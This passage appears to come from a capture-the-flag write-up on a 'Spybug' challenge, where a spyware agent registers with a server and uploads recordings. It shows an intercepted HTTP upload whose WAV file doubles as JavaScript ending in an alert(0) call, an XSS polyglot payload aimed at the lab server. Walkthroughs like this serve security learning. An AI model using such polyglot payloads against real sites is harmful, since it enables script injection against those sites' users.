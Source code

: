 Using these values, the agent now confirms that it is correctly registered, by calling the `/agents/checks/<id>/<token>` api.

![](/images/spybug-agent-checks.png)

Once it is correctly registered, it sends details about the compromised machine.
In our case it is a kali linux container.

![](/images/spybug-agent-details.png)

The server does not validate this information and there is no filtering done on the provided values.

Finally, the agent start uploading recordings.

I intercepted this request in order to understand it.

```http
POST /agents/upload/289cdbc9-db27-4cd7-b514-8ea45f0e78f4/f169be48-7092-4e27-a57f-0b4219ffdc67 HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Go-http-client/1.1
Content-Length: 1464982
Content-Type: multipart/form-data; boundary=27107fc38be92d2a4dd133a91889dfd64f37c0c193719b5afa3252b5881c
Accept-Encoding: gzip, deflate
Connection: close

--27107fc38be92d2a4dd133a91889dfd64f37c0c193719b5afa3252b5881c
Content-Disposition: form-data; name="recording"; filename="rec.wav"
Content-Type: application/octet-stream

RIFF/* WAVEfmt      »   î   LIST   INFOIART   Duran ICMT,   https://www.youtube.com/watch?v=xvFZjo5PgG0 ICRD	   20200728  INAM$   Rick Roll (Different link + no ads) ISFT   Lavf58.76.100 data*/="";alert(0);/*
//snip -- this is .wav data//

--27107fc38be92d2a4dd133a91889dfd64f37c0c193719b5afa3252b5881c--

```
